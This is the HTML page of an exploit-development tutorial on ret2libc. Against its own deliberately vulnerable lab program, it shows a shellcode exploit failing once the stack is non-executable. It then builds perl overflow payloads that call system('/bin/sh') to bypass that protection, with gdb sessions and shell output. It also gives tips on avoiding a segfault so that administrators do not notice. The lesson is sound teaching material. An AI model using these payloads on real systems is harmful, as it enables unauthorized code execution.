

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <!-- The above 3 meta tags *must* come first in the head; any other head content must come *after* these tags -->
    <meta name="description" content="">
    <meta name="keywords" content="">
    <title>BlueHood - Cyber Security Learning</title>
    <!-- Bootstrap -->
    <link href="../css/bootstrap.min.css" rel="stylesheet">
    <!-- Style CSS -->
    <link href="../css/styles.css" rel="stylesheet">
    <!-- Google Fonts -->
    <link href="https://fonts.googleapis.com/css?family=Nunito+Sans:200,200i,300,300i,400,400i,600,600i,700,700i,800,800i,900,900i" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css?family=PT+Serif:400,400i,700,700i" rel="stylesheet">
    <!-- FontAwesome CSS -->
    <link rel="stylesheet" type="text/css" href="../css/fontello.css">
    <link href="../css/font-awesome.min.css" rel="stylesheet">
    <!-- HTML5 shim and Respond.js for IE8 support of HTML5 elements and media queries -->
    <!-- WARNING: Respond.js doesn't work if you view the page via file:// -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/html5shiv/3.7.3/html5shiv.min.js"></script>
      <script src="https://oss.maxcdn.com/respond/1.4.2/respond.min.js"></script>
    <![endif]-->
</head>

<body>
    <div class="header-wrapper">
        <div class="container">
            <div class="row">
                <div class="col-lg-2 col-md-2 col-sm-12 col-xs-12">
                    <a href="index.html"></a>
                </div>
                <div class="col-lg-8 col-md-10 col-sm-12 col-xs-12">
                    <div class="navigation">
                        <div id="navigation">
                            <ul>
                                <li class="active"><a href="../index.html" title="Home">Home</a></li>
                                <li class="active"><a href="../pentesting.html" title="Penetration Testing">Penetration Testing</a></li>
                                <li class="active"><a href="../exploitdev.html" title="Exploit Development">Exploit Development</a></li>
                                <li class="active"><a href="../malware.html" title="Malware">Malware</a></li>
                                <li class="active"><a href="../shellcode.html" title="Shellcode">Shellcode</a></li>
                                
                            </ul>
                        </div>
                    </div>
                </div>
                <div class="col-lg-2 hidden-md hidden-sm hidden-xs">
                    <div class="header-btn"><a href="#" class="btn btn-header">get started</a></div>
                </div>
            </div>
        </div>
    </div>
    <!-- header-section close -->
    <!-- page-header-start -->
    <div class="page-header">
        <div class="container">
            <div class="row">
                <div class="col-lg-6 col-md-6 col-sm-6 col-xs-12">
                    <div class="page-section">
                        <h1 class="page-title ">Exploit Devlopment</h1>
                        <h3 class="page-title ">2.5 No Shellcode No Worries: ret2libc</h1>
                        <div class="page-breadcrumb">
                            <ol class="breadcrumb">
                                <li><a href="../exploitdev.html">Exploit Development</a></li>
                                <li>2. Stack Based Buffer Overflows</li>
                                <li>2.5 No Shellcode No Worries: ret2libc</li>
                            </ol>
                        </div>
                    </div>
                </div>
                <div class="col-lg-6 col-md-6 col-sm-6 hidden-xs">
                    <div class="page-section">
                         <p>Up till now, we have been focusing on injecting our own code into memory and forcing the program to run it. Well, we don't need Shellcode! We will be abusing inbuilt C libraries to execute arbitrary code on the System. This attack is known as ret2libc (return to the C library). In this attack, we use function's built into the OS to facilitate our attack rather than Shellcode. </p>
                    </div>
                </div>
            </div>
        </div>
    </div>
    <!-- page-header-close -->
    <div class="space-medium">
        <div class="container">
            <div class="row">
                <div class="col-lg-8 col-md-8 col-sm-8 col-xs-12">
                    <div class="row">
                        <div class="col-lg-12 col-sm-12 col-md-12 col-xs-12">
                            <div class="post-block">
                                <!-- post holder -->
                                <div class="post-img">
                                    <!-- post img -->
                                    <a href="#" class="imghover"></a>
                                </div>
                                <!-- /.post img -->
                                <div class="post-content">
                                    <!-- post content -->
                                    <div class="post-header">

                                    </div>
                                    <!-- /.post header -->
                                    <p style="color: red;">All the content on this website, including this post, is intended for educational use only. The techniques and processes presented should only be used against systems you own or have explicit written permission to target. Otherwise, you are breaking the Law - be smart. The author/s of this website will not accept any liability for misuse of this content.</p>

                                    
                                    <br><br>
                                    <h2> Executable Space Protections </h2>

                                    <p>Up to this point, we have relied on disabling certain security features when compiling our vulnerable programs. One such feature is we have allowed the Stack to be executable via the “-z exec_stack” flag. Normally, the Linux OS (and all other reputable OS's) protect against memory corruption exploits by ensuring that the Stack is non-executable; that is, code on the Stack is not permitted to run. This is a sensible as programs never load CPU instructions onto the Stack so under normal circumstances we would never expect the CPU to be executing commands on the Stack.</p>
                                    <p>In our exploits, we have been loading instructions onto the Stack and then executing them. If we neglected to disable this security feature our exploits would not work because our code on the Stack would not be permitted to run. </p>
                                    <p>This a general principle in program security: an address space should never be writable and executable. If an address space is writable and executable then an attacker could write code to this space and force the program to execute it. </p>
                                    <p>Let's see this is a bit more detail. We will recompile our simple_overflow program with Stack execution prevention in place and attempt to run our exploit against it. (We have many at this point - we'll be using our exploit from 2.4 that writes Shellcode directly to the Stack frame)</p>
                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gcc -fno-stack-protector -o simple_overflow2 simple_overflow.c
simple_overflow.c: In function ‘say_hi’:
simple_overflow.c:5:5: warning: type of ‘name’ defaults to ‘int’ [-Wimplicit-int]
 int say_hi(name) {
 ^~~~~~
simple_overflow.c:7:17: warning: passing argument 2 of ‘strcpy’ makes pointer from integer without a cast [-Wint-conversion]
 strcpy(buffer, name);
 ^~~~
In file included from simple_overflow.c:3:0:
/usr/include/string.h:121:14: note: expected ‘const char * restrict’ but argument is of type ‘int’
 extern char *strcpy (char *__restrict __dest, const char *__restrict __src)
 ^~~~~~
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ls -la | grep simple_overflow
-rwxrwxr-x 1 debug debug 7288 Sep 11 14:10 simple_overflow
-rwxrwxr-x 1 debug debug 7288 Sep 11 15:23 simple_overflow2
-rw-rw-r-- 1 debug debug 223 Sep 8 15:41 simple_overflow.c
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ </pre>
                                    <p>simple_overflow2 has execution prevention on the Stack whereas simple_overflow does not. Our exploit should work for simple_overflow but not for simple_overflow2. </p>
                                    <pre>(exploit) 
$(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "\x30\xfc\xff\xbf"x10')</pre>
                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ env -i $(pwd)/simple_overflow $(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "\x30\xfc\xff\xbf"x10')
Hello ������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS���
 AAA0���0���0���0���0���0���0���0���0���0���
$ id
uid=1000(debug) gid=1000(debug) groups=1000(debug),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare)
$ exit
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ env -i $(pwd)/simple_overflow2 $(perl -e 'print "\x90"x150 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x3 . "\x30\xfc\xff\xbf"x10')
Hello ������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS���
 AAA0���0���0���0���0���0���0���0���0���0���
Segmentation fault (core dumped)</pre>
                                    <p>The same exploit fails agasint the program with Stack execution prevention in place. We were not permitted to execute our Shellcode on the Stack and our exploit failed. Our exploit will also fail if we use environment variables since these variables are stored on the Stack as well. So how can we get around this? The answer is to not execute code on the Stack or disable execution prevention. We will look at the former, more specifically, ret2libc. </p>

                                    <h2> ret2libc </h2>
                                    <p>When writing C programs you often use inbuilt libraries. Every time you call a function like printf(), getenv() or system() you are calling one of C's inbuilt functions. This is very useful as you can rely on these libraries and don't have to worry about programming these functions every time you use them. </p>
                                    <p>These functions are located in the standard C library called libc. libc is contained on the system you are working on and is independent of the program you are running. As an exploit developer, we have free reign to use these libc functions as well and that's what we'll do here. </p>
                                    <p>Firstly let's have a look at a program that will spawn a shell. </p>
                                    <pre>(system.c)

#include &#x3C;stdio.h&#x3E;
int main() {
    &#x9;system(&#x22;/bin/sh&#x22;);
}</pre>                             
                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gcc -o system system.c 
system.c: In function ‘main’:
system.c:3:2: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
 system("/bin/sh");
 ^~~~~~
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ./system
$ id
uid=1000(debug) gid=1000(debug) groups=1000(debug),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare)
$ exit
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ </pre>
                                    <p>This a simple program that uses the C function system() to spawn a shell. Our aim is to force our vulnerable program, simple_overflow2, to make the same call to system() and spawn a shell. Thus we start by analysing this simple program. </p>
                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gdb ./system 
GNU gdb (Ubuntu 8.2-0ubuntu1~18.04) 8.2
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
 http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./system...(no debugging symbols found)...done.
gdb-peda$ disas main
Dump of assembler code for function main:
 0x0000051d <+0>:   lea ecx,[esp+0x4]
 0x00000521 <+4>:   and esp,0xfffffff0
 0x00000524 <+7>:   push DWORD PTR [ecx-0x4]
 0x00000527 <+10>:  push ebp
 0x00000528 <+11>:  mov ebp,esp
 0x0000052a <+13>:  push ebx
 0x0000052b <+14>:  push ecx
 0x0000052c <+15>:  call 0x559 <__x86.get_pc_thunk.ax>
 0x00000531 <+20>:  add eax,0x1aa7
 0x00000536 <+25>:  sub esp,0xc
 0x00000539 <+28>:  lea edx,[eax-0x19f8]
 <b>0x0000053f <+34>:  push edx</b> (*)
 0x00000540 <+35>:  mov ebx,eax
 <b>0x00000542 <+37>:  call 0x3b0 system@plt> </b>(**)
 0x00000547 <+42>:  add esp,0x10
 0x0000054a <+45>:  mov eax,0x0
 0x0000054f <+50>:  lea esp,[ebp-0x8]
 0x00000552 <+53>:  pop ecx
 0x00000553 <+54>:  pop ebx
 0x00000554 <+55>:  pop ebp
 0x00000555 <+56>:  lea esp,[ecx-0x4]
 0x00000558 <+59>:  ret 
End of assembler dump.
gdb-peda$ </pre>
                                    <p>We see that the programing is pushing the effective address of “/bin/sh” onto the Stack (*) and then calling system (**). This tells us how we need to overwrite the Stack to force simple_overflow to call system(). </p>

                                    
                                    <p style="font-size: 15px; text-align: center;">We want to overwrite the Stack frame so it looks like this. This will cause the prgoram to call system() and spawn a shell. </p>

                                    <p>We need to ensure that a pointer to the string “/bin/sh” is on the Stack, as if where legitimately pushed onto the Stack before a call to system(). Note this is an argument that system takes - the command we want to be executed. We then need to specify a return address after the system() function has executed. For the moment we'll leave this as junk “AAAA”. Finally, we need to overwrite RET with a pointer to system to redirect execution to libc. The program will get the argument for system from the Stack (in our case a pointer to “/bin/sh”). </p>
                                    <p>We need to find all the appropriate addresses.</p>

                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gdb ./simple_overflow
GNU gdb (Ubuntu 8.2-0ubuntu1~18.04) 8.2
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
 http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./simple_overflow...(no debugging symbols found)...done.
gdb-peda$ run a 
Starting program: /home/debug/Documents/exploitdev/chapter2/stack/simple_overflow a
Hello a
[Inferior 1 (process 2107) exited normally]
Warning: not running
gdb-peda$ disas say_hi
Dump of assembler code for function say_hi:
 0x0040054d <+0>:   push ebp
 0x0040054e <+1>:   mov ebp,esp
 0x00400550 <+3>:   push ebx
 0x00400551 <+4>:   sub esp,0xd4
 0x00400557 <+10>:  call 0x400450 <__x86.get_pc_thunk.bx>
 0x0040055c <+15>:  add ebx,0x1a78
 0x00400562 <+21>:  mov eax,DWORD PTR [ebp+0x8]
 0x00400565 <+24>:  sub esp,0x8
 0x00400568 <+27>:  push eax
 0x00400569 <+28>:  lea eax,[ebp-0xd0]
 0x0040056f <+34>:  push eax
 0x00400570 <+35>:  call 0x4003e0 strcpy@plt>
 0x00400575 <+40>:  add esp,0x10
 0x00400578 <+43>:  sub esp,0x8
 0x0040057b <+46>:  lea eax,[ebp-0xd0]
 0x00400581 <+52>:  push eax
 0x00400582 <+53>:  lea eax,[ebx-0x1974]
 0x00400588 <+59>:  push eax
 0x00400589 <+60>:  call 0x4003d0 printf@plt>
 0x0040058e <+65>:  add esp,0x10
 0x00400591 <+68>:  mov eax,0x0
 0x00400596 <+73>:  mov ebx,DWORD PTR [ebp-0x4]
 0x00400599 <+76>:  leave 
 0x0040059a <+77>:  ret 
End of assembler dump.
gdb-peda$ break *0x00400589
Breakpoint 1 at 0x400589
gdb-peda$ run a
Starting program: /home/debug/Documents/exploitdev/chapter2/stack/simple_overflow a

Breakpoint 1, 0x00400589 in say_hi ()
gdb-peda$ p system
$1 = {int (const char *)} <b>0xb7e1f250</b> <__libc_system>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : <b>0xb7f603cf</b> ("/bin/sh")
gdb-peda$ </pre>
                                    <p>We can see system() is at 0xb7e1f250 and we have also found the string “/bin/sh” at the memory address 0xb7f603cf. We should be good to go. Let's construct the exploit. </p>
                                    <pre>(exploit)
$(perl -e 'print "A"x212 . "\x50\xf2\xe1\xb7" . "AAAA" . "\xcf\x03\xf6\xb7"')</pre>
                                    <p>This should overwrite RET with the address of system(). The program should then pass execution to the libc, which will run system("/bin/sh") after taking the pointer to “/bin/sh” from the Stack as an argument. Let's see if it works for simple_overflow with no Stack protections. </p>
                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ./simple_overflow $(perl -e 'print "A"x212 . "\x50\xf2\xe1\xb7" . "AAAA" . "\xcf\x03\xf6\xb7"')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP���AAAA���
$ id
uid=1000(debug) gid=1000(debug) groups=1000(debug),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare)
$ </pre>
                                    <p>Yay, it works. Let's see if it works against simple_overflow2, which has no execution set on the Stack. </p>
                                    
                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ./simple_overflow2 $(perl -e 'print "A"x212 . "\x50\xf2\xe1\xb7" . "AAAA" . "\xcf\x03\xf6\xb7"')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP���AAAA���
$ id 
uid=1000(debug) gid=1000(debug) groups=1000(debug),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare)
$ </pre>
                                    <p>It works as well! We've managed to bypass the no executable Stack. We now know how to bypass DEP (Data Execution Prevention) on the Stack which is a core protection imposed by modern operating systems. This is good going. </p>
                                    <p>One last point. We did not provide a return address to resume execution after we exit the shell. When we exit the program will try and execute instructions at 0x41414141, a non-sensical address. We will get a segmentation fault. </p>
                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ./simple_overflow2 $(perl -e 'print "A"x212 . "\x50\xf2\xe1\xb7" . "AAAA" . "\xcf\x03\xf6\xb7"')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP���AAAA���
$ exit
Segmentation fault (core dumped)
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$</pre>
                                    <p>This might alert a vigilant system administrator to our presence - programs encountering segmentation faults could be an indicator of compromise. We want the program to exit cleanly. We can do this by picking an appropriate address instead of our As. A good candidate would be the exit() function. Let's try that. </p>
                                    <pre>gdb-peda$ p exit
$1 = {void (int)} <b>0xb7e12420</b> <__GI_exit>
gdb-peda$ </pre>
                                    <p>Unfortunately, we have a problem. The exit address contains a bad character for our application, namely 0x20. This means that we cannot use this address as it will terminate our buffer early. So this won't work in our case. We'll have to content ourselves with a segmentation fault after we exit our shell. </p>
                                    <p>A cheeky alternative could be to terminate the program within our shell when we want to exit. This will be less suspicious than a segmentation fault. </p>
                                    <pre>debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ./simple_overflow2 $(perl -e 'print "A"x212 . "\x50\xf2\xe1\xb7" . "\x80\x96\xf1\xb7" . "\xcf\x03\xf6\xb7"')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�᷀������
$ ps aux | grep simple_overflow2
debug 2285 0.0 0.0 2368 516 pts/0 S 18:30 0:00 ./simple_overflow2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP?????????
debug 2289 0.0 0.0 6520 788 pts/0 S+ 18:30 0:00 grep simple_overflow2
$ kill 2285
$ Terminated
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ </pre>
                                    <p>And we have managed to exit our shell cleanly by terminating simple_overflow2.</p>
                                    <p> It is possible to chain together several function calls within ret2libc to write more complex exploits - something we'll do in the future. </p>
                                    <p>Challenge: Develop a ret2libc exploit agasint the login program introduced in 2.1 Introduction to Stack Based Buffer Overflows. You could also try an environment variable exploit. </p>


                                    <h3>References:</h3>
                                    <p>Liveoverflow, ret2libc <a href="https://www.youtube.com/watch?v=m17mV24TgwY">https://www.youtube.com/watch?v=m17mV24TgwY</a><br>
                                    Buffer Overflows, ret2libc exploitation examples <a href="https://bufferoverflows.net/ret2libc-exploitation-example/">https://bufferoverflows.net/ret2libc-exploitation-example/</a><br>
                                    S El-Sherei, elsherei.com <a href="https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf">https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf</a></p>

                                    
                                    <!-- -->
                                    
                                    <!-- <div class="related-post-block">
                                        
                                        <div class="row">
                                            <div class="col-lg-12 col-sm-12 col-md-12 col-sm-12">
                                                <h3 class="related-post-title">Recommended Posts</h3>
                                            </div>
                                        </div>
                                        <div class="row">
                                            <div class="col-lg-6 col-sm-6 col-md-6 col-xs-12">
                                                <div class="related-post">
                                                    
                                                    <div class="related-img">
                                                        <a href="#" class="imghover"></a>
                                                    </div>
                                                    <div class="related-post-content">
                                                        <h4 class="related-title"><a href="#" class="title">Drinking water dilutes 
stomach acid</a></h4>
                                                        <div class="meta"><span class="meta-categories">in <a href="#" class="">"diet tips"</a> </span></div>
                                                    </div>
                                                </div>
                                               
                                            </div>
                                            <div class="col-lg-6 col-sm-6 col-md-6 col-xs-12">
                                                <div class="related-post">
                                                    
                                                    <div class="related-img">
                                                        <a href="#" class="imghover"></a>
                                                    </div>
                                                    <div class="related-post-content">
                                                        <h4 class="related-title"><a href="#" class="title">Top 5 natural therapies
to fight hpylori</a></h4>
                                                        <div class="meta"><span class="meta-categories">in <a href="#" class="">"health care</a> </span></div>
                                                    </div>
                                                </div>
                                                
                                            </div>
                                        </div>
                                    </div> -->
                                    <!-- /.related post block -->
                                    <div class="post-navigation">
                                        <!-- post navigation -->
                                        <div class="row">
                                            <div class="nav-links">
                                                <div class="col-md-6 col-sm-6">
                                                    <div class="nav-previous">
                                                        <!-- nav previous -->
                                                        <a href="#" class="prev-link">previous post</a>
                                                        <div class="previous-next-title">
                                                            <h5><a href="#" class="title"></a></h5>
                                                        </div>
                                                    </div>
                                                    <!-- /. nav previous -->
                                                </div>
                                                <div class="col-md-6 col-sm-6">
                                                    <div class="nav-next text-right">
                                                        <!-- nav next -->
                                                        <a href="#" class="next-link">next post</a>
                                                        <div class="previous-next-title">
                                                            <h5><a href="#" class="title"></a></h5>
                                                        </div>
                                                    </div>
                                                    <!-- /.nav previous -->
                                                </div>
                                            </div>
                                        </div>
                                    </div>
                                    <!-- /. post navigation -->
                                    
                                    
                                </div>
                                <!-- /.post content -->
                            </div>
                            <!-- /.post holder -->
                        </div>
                    </div>
                </div>
                <div class="col-lg-4 col-md-4 col-sm-4 col-xs-12">
                  
                    <!-- widget-definiton-close -->
                    <!-- widget-definiton-close -->
                   
                    
                </div>
            </div>
        </div>
    </div>
    <!-- footer start -->
    <div class="footer">
        <div class="container">
            <div class="row">
                <!-- footer-about-start -->
                
                <!-- footer-useful links-start -->
                <div class=" col-lg-4 col-md-4 col-sm-4 col-xs-12">
                    <div class="footer-widget">
                        <h3 class="footer-title">Quick Links</h3>
                        <ul class="angle angle-right">
                            <li><a href="#">Home </a></li>
                            <li><a href="#">Penetration Testing </a></li>
                            <li><a href="#">Exploit Development</a></li>
                            <li><a href="#">Malware</a></li>
                            <li> <a href="#">Shellcode</a></li>
                            <li> <a href="#">All Topics</a></li>
                        </ul>
                    </div>
                </div>

                 
                </a>
                      
                <!-- footer-useful links-close -->
                <!-- footer-form-start -->
                <div class=" col-lg-4 col-md-4 col-sm-4 col-xs-12">
    
                </div>
                <!-- footer-tiny-text-start -->
                <div class="col-lg-12 col-md-12 col-sm-12 col-xs-12">
                    <div class="tiny-footer">
                        <p>© 2020 - BlueHood. All Rights Reserved.</p>
                        <p> See https://easetemplate.com for the Website Template and Other Templates </p>
                    </div>
                </div>
                <!-- footer-tiny-text-start -->
                <!-- footer-form-close -->
            </div>
        </div>
    </div>
    <!-- jQuery (necessary for Bootstrap's JavaScript plugins) -->
    <script src="../js/jquery.min.js" type="text/javascript"></script>
    <!-- Include all compiled plugins (below), or include individual files as needed -->
    <script src="../js/bootstrap.min.js" type="text/javascript"></script>
    <script src="../js/navigation.js" type="text/javascript"></script>
    <script src="../js/menumaker.js" type="text/javascript"></script>
    <script type="text/javascript" src="../js/jquery.sticky.js"></script>
    <script type="text/javascript" src="../js/sticky-header.js"></script>
</body>

</html>